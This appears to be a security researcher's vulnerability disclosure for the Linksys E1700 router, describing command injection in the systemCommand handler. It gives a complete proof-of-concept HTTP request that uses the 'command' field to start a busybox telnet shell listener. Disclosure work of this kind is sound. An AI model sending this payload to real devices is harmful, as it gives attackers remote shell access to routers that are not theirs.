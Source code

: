 # Linksys Vulnerability

Vendor:Linksys

Product:E1700

Version:E1700(1.0.0.4.003)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `systemCommand` function, `command` is directly passed by the attacker, so we can control the `command` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `command` as **`busybox telnetd -l /bin/sh -p 9999`** , and the router will excute it,such as:

```http
POST /goform/systemCommand HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/network/basic.shtml;session_id=gwyuIY8uSJHGwxtp0U0bMnX0J1klT6C9
Cookie: FSSBBIl1UgzbN7N80T=10AvEXQLoH_LTmuvzkUgS7anfnAFAZXlQ.4PMSCFs3avj98CUbW5VYXmf4CkeSpLPaWxcQ000fJAH3_BOkD7VykscSuQJfxEIZbHIOwMJVLj9vWKrmgvvmPoa1KPJ3tYwIoQdq46yNEXN5dq7oZPOz5tTcDb4Nuw9qNaWSCoAnSAbounMM_u0bVaK.j00N.1T4u9XeFlZLMuY9MxXFOGPyvoHWdW0a6Bx7Mt86gLuuve7q.yaVnqOKvGvDgL3AzdKWNdO5YiPu_4RNlsYNe4m7bcnw6hDsdmjrfDZxwqCUN_8oA; FSSBBIl1UgzbN7N80S=.iPMLVrFLUcIxtwVKrClZYGZBzGzC149V9FiutQKysXJDYBDCqewOf5IavZkllZz; XSRF_TOKEN=1443376541; session_id=wxymTijRhkqwLcDL0EkyY62Yjw1n3Tkx
Upgrade-Insecure-Requests: 1

token=gwyuIY8uSJHGwxtp0U0b&command=`busybox telnetd -l /bin/sh -p 9999`
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

